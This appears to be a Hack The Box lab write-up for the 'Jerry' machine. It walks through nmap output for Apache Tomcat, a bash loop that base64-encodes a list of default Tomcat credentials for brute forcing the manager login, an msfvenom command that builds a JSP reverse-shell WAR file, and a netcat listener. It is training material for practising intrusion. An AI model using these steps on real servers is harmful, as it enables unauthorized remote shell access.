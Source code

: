 # Hack the box - Jerry

1. run nmap
2. apache tomcat's management page available at <IP>:8080
3. looked at the GET request when trying to log in to the management panel through burp suite
4. the data from the input fields are combined with ':' delimiter and hashed with base64
5. either test default credentials manually or run a brute force attack with burp suite
6. create reverse shell with msfvenom
7. upload reverse shell war file to the server through the management site
8. run netcat listener
9. run the reverse shell on the server.

Nmap results
```
Nmap scan report for 10.10.10.95
Host is up (0.058s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Creating a list of default credentials hashed with base64. tomcat.txt contains line separated "username:password".
```bash
for cred in $(cat tomcat.txt); do echo -n $cred | base64 >> base64_creds.txt; done

cat base64_creds.txt

YWRtaW46cGFzc3dvcmQ=
YWRtaW46
YWRtaW46UGFzc3dvcmQx
YWRtaW46cGFzc3dvcmQx
YWRtaW46YWRtaW4=
YWRtaW46dG9tY2F0
Ym90aDp0b21jYXQ=
bWFuYWdlcjptYW5hZ2Vy
cm9sZTE6cm9sZTE=
cm9sZTE6dG9tY2F0
cm9sZTpjaGFuZ2V0aGlz
cm9vdDpQYXNzd29yZDE=
cm9vdDpjaGFuZ2V0aGlz
cm9vdDpwYXNzd29yZA==
cm9vdDpwYXNzd29yZDE=
cm9vdDpyMDB0
cm9vdDpyb290
cm9vdDp0b29y
dG9tY2F0OnRvbWNhdA==
dG9tY2F0OnMzY3JldA==
dG9tY2F0OnBhc3N3b3JkMQ==
dG9tY2F0OnBhc3N3b3Jk
dG9tY2F0Og==
dG9tY2F0OmFkbWlu
dG9tY2F0OmNoYW5nZXRoaXM=

```

Creating reverse shell war file to upload to the server
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

```

Running netcat listener
```bash
nc -nlvp 4444
```
